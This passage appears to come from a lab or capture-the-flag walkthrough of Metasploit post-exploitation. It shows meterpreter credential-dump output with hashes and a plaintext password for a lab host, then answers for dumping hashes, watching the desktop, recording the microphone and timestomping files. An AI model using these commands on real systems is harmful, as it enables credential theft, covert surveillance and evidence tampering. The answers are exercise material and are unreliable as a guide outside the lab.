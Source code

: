     ```bash
    meterpreter > creds_all
    [+] Running as SYSTEM
    [*] Retrieving all credentials
    msv credentials
    ===============

    Username  Domain   LM                                NTLM                              SHA1
    --------  ------   --                                ----                              ----
    Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

    wdigest credentials
    ===================

    Username  Domain     Password
    --------  ------     --------
    (null)    (null)     (null)
    DARK-PC$  WORKGROUP  (null)
    Dark      Dark-PC    Password01!

    tspkg credentials
    =================

    Username  Domain   Password
    --------  ------   --------
    Dark      Dark-PC  Password01!

    kerberos credentials
    ====================

    Username  Domain     Password
    --------  ------     --------
    (null)    (null)     (null)
    Dark      Dark-PC    Password01!
    dark-pc$  WORKGROUP  (null)
    ```

    It's `Password01!`.

## Post-Exploitation
- What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)
> hashdump

- While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?
> screenshare

- How about if we wanted to record from a microphone attached to the system?
> record_mic

- To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.
> timestomp
